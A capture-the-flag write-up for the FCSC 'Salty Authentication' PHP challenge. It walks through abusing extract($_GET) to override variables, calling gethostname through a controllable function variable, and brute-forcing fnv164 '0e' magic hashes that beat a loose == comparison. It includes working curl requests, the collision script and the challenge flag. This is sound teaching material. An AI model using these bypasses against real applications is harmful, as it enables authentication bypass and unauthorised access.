 # Salty Authentication
<p align="center">
<img alt="Challenge" src="challenge.png">
</p>

When trying to access the given url, we get the following answer:
```php
<?php

error_reporting(0);

include('flag.php');
$salt = bin2hex(random_bytes(12));

extract($_GET);

$secret = gethostname() . $salt;

if (isset($password) && strlen($password) === strlen($secret) && $password !== $secret) {
    if (hash('fnv164', $password) == hash('fnv164', $secret)) {
        exit(htmlentities($flag));
    } else {
        echo('Wrong password!');
        exit($log_attack());
    }
}

highlight_file(__FILE__);

?>
```

The secret string is composed of the hostname of the machine concatenated with a random salt.

The script checks if the "password" parameter was provided in the GET request and if it has the same length as the secret string. If these conditions are met, the hash function "fnv164" is applied to the secret string and the "password" parameter, and the two hashes are compared.

Let's read the php doc of the [extract](https://www.php.net/manual/en/function.extract.php) function:

<img alt="Extract php function documentation" src="php_extract.png">

With this function we can control a number of variables in the script.

This allows us to submit, via a GET request, the $password and $salt parameters.

First, we will try to know the length of the hostname returned by the gethostname() function. To do so, we just have to submit an empty $salt, and iterate on the length of $password until the message 'Wrong password'

```console
dqrkk$ for i in {1..100}; do response=$(curl -s "https://salty-authentication.france-cybersecurity-challenge.fr/?salt=&password=$(python -c 'print "A" * '$i'')") && [[ "$response" == *"Wrong password"* ]] && echo "Password length: $i"; sleep 2; done
Password length: 12
```

The hostname has a length of 12 characters.

In order to go further, we need to know the value of the hostname.

For that, we will use a flaw in the script.

Indeed, when the hashes don't match, the script displays the message "Wrong password!", but it also makes an exit($log_attack()).

This gives us the possibility to call a function by controlling the value of $log_attack.

We will send the string gethostname in the parameter, in order to make the script execute this function.

```console
dqrkk$ curl "https://salty-authentication.france-cybersecurity-challenge.fr/?salt=&password=AAAAAAAAAAAA&log_attack=gethostname"; echo     
Wrong password!9be4a60f645f
```

Hostname is 9be4a60f645f

At this point, all we have to do is find a $password and $salt values that will satisfy the following conditions:

```php
$secret = "9be4a60f645f" . $salt

strlen($password) === strlen($secret)
$password !== $secret
hash('fnv164', $password) == hash('fnv164', $secret)
```

We must therefore find PHP fnv164 hash collisions.

Searching for 'fnv164 collisions' on google, we find a site explaining that it is possible to generate collisions in hashes if the comparison between the 2 hashes uses == to compare them.

It uses the trick that for PHP a string formated lkie '0+e[0-9]+' is evaluated as 0.

So '0e1' == '00e2' == '0' == 0


We just need to find two different salt with the same length that generate a hash that match the previous format.

The following script do the job:

```php
// Générer une chaîne de sel aléatoire de longueur variable contenant des chiffres et des lettres
function generateStrings($min_length, $max_length)
{
    $characters = '0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ'; // Chiffres et lettres autorisés
    $characters_length = strlen($characters);

    for ($i = $min_length; $i <= $max_length; $i++) {
        $combinations = pow($characters_length, $i); // Nombre total de combinaisons

        for ($j = 0; $j < $combinations; $j++) {
            $string = '';
            $index = $j;

            // Convertir l'index en base $characters_length pour générer une chaîne de caractères unique
            for ($k = 0; $k < $i; $k++) {
                $string .= $characters[$index % $characters_length];
                $index = floor($index / $characters_length);
            }

            yield $string;
        }
    }
}

foreach (generateStrings(1, 20)  as $salt) {
    // Concaténation du secret avec le sel
    $secret = "9be4a60f645f" . $salt;

    // Calcul du hash
    $hash = hash('fnv164', ($secret));

    // Vérification que le hash commence par '0e' suivi de chiffre
    if (preg_match('/^0e\d+$/', $hash)) {
        echo "Salt: $salt, Le hash $hash commence par '0e' suivi de chiffre.\n";
    }
}
```

Let's laucnh it, we obtain:

```console
dqrkk$ php salty.php
Salt: ChI00, Le hash 0e65994470693693 commence par '0e' suivi de chiffres.
Salt: 9iu10, Le hash 0e31697456461001 commence par '0e' suivi de chiffres.
Salt: xQj20, Le hash 0e86686877103172 commence par '0e' suivi de chiffres.
Salt: ChH20, Le hash 0e62314470665024 commence par '0e' suivi de chiffres.
Salt: 9iH20, Le hash 0e42687456548181 commence par '0e' suivi de chiffres.
Salt: xQn30, Le hash 0e78716877040301 commence par '0e' suivi de chiffres.
Salt: xQj40, Le hash 0e86626877102720 commence par '0e' suivi de chiffres.
Salt: xQk40, Le hash 0e89686877126729 commence par '0e' suivi de chiffres.
Salt: xQi50, Le hash 0e90736877189848 commence par '0e' suivi de chiffres.
Salt: xQk50, Le hash 0e89676877126556 commence par '0e' suivi de chiffres.
```

And that's it.

Let's take the first two calculated values.


$password will be 9be4a60f645f9iu10

hash('fnv164', '9be4a60f645f9iu10') = '0e31697456461001'

$secret will be 9be4a60f645fChI00

hash('fnv164', '9be4a60f645fChI00') = '0e65994470693693'

```console
dqrkk$ curl "https://salty-authentication.france-cybersecurity-challenge.fr/?salt=ChI00&password=9be4a60f645f9iu10"; echo  
FCSC{d090643090b9ac9dd7cddc1d830f0457213e5b50e7a59f1fe493df69c60ac054}
```

Flag is FCSC{d090643090b9ac9dd7cddc1d830f0457213e5b50e7a59f1fe493df69c60ac054}


